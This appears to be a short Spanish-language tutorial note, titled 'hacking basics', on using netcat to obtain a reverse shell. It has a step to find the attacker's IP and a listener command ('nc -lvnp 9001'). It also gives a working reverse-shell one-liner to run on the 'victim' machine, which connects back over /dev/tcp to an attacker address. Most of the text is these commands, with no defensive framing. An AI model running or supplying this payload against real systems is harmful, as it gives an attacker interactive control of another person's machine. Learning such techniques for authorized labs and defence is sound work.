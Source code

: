 # CONCEPTOS BÁSICOS DE HACKING
# Uso de netcat
Si quiero obtener una reverse shell en mi máquina atacante, primero debo conocer la dirección IP, que puedo obtener con el siguiente comando:  
`hostname -I` 

Ahora, puedo ir a la página revshells.com y generar el payload.  


En la página, ingreso la dirección IP de la máquina atacante y genero el payload.  
Me pongo en escucha en el puerto, por ejemplo, 9001, con el siguiente comando:  

`sudo nc -lvnp 9001`  

Luego, en la máquina víctima, ejecuto el payload generado en revshells.com:  

`sh -i >& /dev/tcp/10.10.10.10/9001 0>&1`

